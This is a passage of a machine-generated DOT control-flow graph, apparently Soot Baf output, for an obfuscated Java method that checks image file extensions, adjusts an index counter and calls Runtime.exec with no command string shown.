    "push \".jpg\""
    "fieldget <S7B4M6W7: java.lang.String bs>"->"push \".jpg\"";
    "push \".jpg\""->"virtualinvoke <java.lang.String: boolean endsWith(java.lang.String)>";
    "virtualinvoke <java.lang.String: boolean endsWith(java.lang.String)>"->"ifne load.r r0";
    "ifne load.r r0"->"load.r r0";
    "load.r r0"->"fieldget <S7B4M6W7: java.lang.String bs>";
    "push \".png\""
    "fieldget <S7B4M6W7: java.lang.String bs>"->"push \".png\"";
    "push \".png\""->"virtualinvoke <java.lang.String: boolean endsWith(java.lang.String)>";
    "virtualinvoke <java.lang.String: boolean endsWith(java.lang.String)>"->"ifne load.r r0";
    "ifne load.r r0"->"load.r r0";
    "load.r r0"->"load.r r0";
    "load.r r0"->"fieldget <S7B4M6W7: int i>";
    "fieldget <S7B4M6W7: int i>"->"push 1";
    "push 1"->"sub.i";
    "sub.i"->"fieldput <S7B4M6W7: int i>";
    "fieldput <S7B4M6W7: int i>"->"load.r r0";
    "load.r r0"->"fieldget <S7B4M6W7: int i>";
    "fieldget <S7B4M6W7: int i>"->"iflt load.r r0";
    "iflt load.r r0"->"goto load.r r0";
    "iflt load.r r0"->"load.r r0";
    "load.r r0"->"push 0";
    "push 0"->"fieldput <S7B4M6W7: int i>";
    "fieldput <S7B4M6W7: int i>"->"goto load.r r0";
    "ifne load.r r0"->"load.r r0";
    "load.r r0"->"load.r r0";
    "load.r r0"->"fieldget <S7B4M6W7: int i>";
    "fieldget <S7B4M6W7: int i>"->"push 1";
    "push 1"->"add.i";
    "add.i"->"fieldput <S7B4M6W7: int i>";
    "fieldput <S7B4M6W7: int i>"->"goto load.r r0";
    "virtualinvoke <java.io.IOException: void printStackTrace()>"
    "virtualinvoke <java.lang.Runtime: java.lang.Process exec(java.lang.String)>"->"virtualinvoke <java.io.IOException: void printStackTrace()>";
}

